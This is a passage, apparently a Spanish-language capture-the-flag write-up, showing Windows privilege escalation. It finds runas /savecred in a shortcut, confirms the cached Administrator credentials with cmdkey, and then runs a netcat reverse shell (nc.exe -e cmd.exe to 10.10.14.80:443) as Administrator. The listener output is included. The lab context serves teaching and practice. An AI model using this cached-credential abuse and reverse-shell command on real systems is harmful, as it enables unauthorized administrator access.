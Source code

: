 Siempre es interesante echar un vistazo a los accesos directos ya que a veces la secuencia de ejecución contiene credenciales, o se pueden ver cosas que no deberían estas.
```powershell
PS C:\USers\Public\Desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?�M?:*wWindowsV1MV?System32???:?�MV?*?System32X2P?:?
                runas.exe???:1??:1?*Yrunas.exeL-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                     ?wN?�?]N?D.??Q???`?Xaccess?_???8{E?3
                               O?j)?H???
                                        )??[?_???8{E?3
                                                      O?j)?H???
                                                               )??[?	??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```

Y aquí podemos ver que se está ejecutando el binario runas.exe y utilizando la cuenta de administrador y la flag /savecred, por lo cual, las credenciales del Administrador deben de estar cacheadas.
`..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred`

```powershell
PS C:\USers\Public\Desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrato
```

Y sí, tienen pinta que están cacheadas.

Ahora, aprovechando el `netcat` que me había transmitido antes, como esto en principio lo va a ejecutar le usuario Administrador, no va a haber GPO que le restrinja la ejecución.
```powershell
PS C:\USers\security> runas /user:ACCESS\Administrator /savecred "cmd.exe /c C:\Users\security\nc.exe 10.10.14.80 443 -e cmd.exe"
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.254.85] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

¡Y ya estaría!

Happy Hacking! 🚀